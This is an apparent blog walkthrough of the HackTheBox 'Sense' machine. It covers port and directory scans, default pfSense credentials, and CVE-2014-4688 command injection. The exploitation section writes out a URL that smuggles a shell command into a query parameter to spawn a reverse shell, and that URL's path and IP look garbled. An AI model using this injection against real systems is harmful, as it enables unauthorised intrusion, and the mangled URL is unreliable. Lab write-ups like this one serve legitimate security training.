 ```yaml
---
title: HackTheBox - Sense
date: 2021-01-19 21:50:04 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, FreeBSD, pfSense, gobuster, default credentials, searchsploit, CVE-2014-4688, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/sense/Sense.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sense-full-port-scan.txt 10.10.10.60
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

> **WARNING**: By default, `nmap` does only a SYN scan (only the first two parts of a TCP handshake &rarr; SYN, SYN/ACK, ACK). We can add `-sT` option to do a full TCP scan. Doing just a SYN scan speeds things up. The downside is that if firewall products notice that you never completing the whole handshake, it may flag you as a bot and block you.

### lighttpd/1.4.35 (ports 80 & 443)

![pfSense](/assets/img/htb/machines/linux/easy/sense/80.png)

It looks like an old pfSense login page.

#### `gobuster`

```bash
$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .txt -k
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2021/01/19 18:13:18 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
===============================================================
2021/01/19 19:30:07 Finished
===============================================================
```

We can take a look at the two txt files.

> **TIP**: If we use `nikto`, the firewall blocks our IP address. Probably due to some brute-force. An advice, consider bigger wordlists like `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt` rather than `/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt` before running scanners like nikto.

#### `/changelog.txt`

![changelog.txt](/assets/img/htb/machines/linux/easy/sense/80-changelog.png)

Considering these notes, we'll probably have to exploit a vulnerability on pfSense. 

#### `/system-users.txt`

![system-users.txt](/assets/img/htb/machines/linux/easy/sense/80-system-users.png)

PfSense default password (source: https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html):

![PfSense default password](/assets/img/htb/machines/linux/easy/sense/default_pass.png)

Now we have some credentials:
- **username**: `rohit`
- **password**: `pfsense`

#### pfSense dashboard

![Desktop View](/assets/img/htb/machines/linux/easy/sense/80-release.png)

We can see pfSense version number: `2.1.3`.

## Exploitation

Let's take a look at searchsploit:

![searchsploit](/assets/img/htb/machines/linux/easy/sense/searchsploit.png)

![exploit](/assets/img/htb/machines/linux/easy/sense/exploit.png)

This exploit just run a reverse shell bash command via the following URL:

`https://10.10.10.160/status_rrd_graph_/assets/img/htb/machines/linux/easy/sense.php?database=queues;printf'PAYLOAD'|sh`

![payload](/assets/img/htb/machines/linux/easy/sense/payload.png)

- Flags:

```console
$ cat /root/root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86
$ cat /home/rohit/user.txt
8721327cc232073b40d27d9c17e7348b
```
___

## Useful links

- [pfSense < 2.1.4 - 'status_rrd_graph_/assets/img/htb/machines/linux/easy/sense.php' Command Injection ](https://www.exploit-db.com/exploits/43560)
- [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)